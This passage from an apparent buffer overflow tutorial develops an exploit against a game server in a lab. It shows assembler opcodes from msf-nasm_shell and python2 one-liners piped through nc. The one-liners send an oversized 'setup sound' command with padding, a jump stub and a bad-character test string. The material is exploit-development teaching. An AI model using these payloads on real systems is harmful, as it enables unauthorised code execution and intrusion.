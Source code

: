 After that done we need some way to jump to that EAX dump, so we can use `jmp eax`, for that case we need to use `msf-nasm_shell` for find the hex value we need to use.

```
└─$ msf-nasm_shell               
nasm > add eax, 12
00000000  83C00C            add eax,byte +0xc
nasm > jmp eax
00000000  FFE0              jmp eax
nasm >
```

So, that all is only 5 chars, in that case we insert more 2 chars of `\x90` to the pattern so it's size remain 7 chars. Then we need to find our return address for jumo the ESP which contain that assembly code.

```
python2 -c 'print "\x11(setup sound " + "\x41"*4368+"\x42"*4+"\x83\xc0\x0c\xff\xe0\x90\x90" + "\x90\x00#"'| nc -nv 192.168.126.36 13327
```

I forgot that we must to check bad chars, so I came up with the following:

```bash
python2 -c 'print "\x11(setup sound " + "\x41"*4124+"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0e\x0f\x10\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x90\x00#"'| nc -nv 192.168.126.36 13327
```

That code should crash the server, note that instead of using 4379 of A's, I am using only 4126, since the badchars length are 256 and we decrees 3 chars from it(`\x00\x11\x90`), so now it 253 then we decrees 4379 by 253 which is 4126, then after several test the crash was occur only with 4124 A's not 4126 which lead us to all chars of 4377. On the Register window, select the EBP>follow dump. Also please note, since we know that the actual string should contain `\x11` at the beginning and `\x90\x00` we refer to it as bad chars.

![bo-046.png](/assets/images/bo-046.png)
**Figure 46** ESI value.
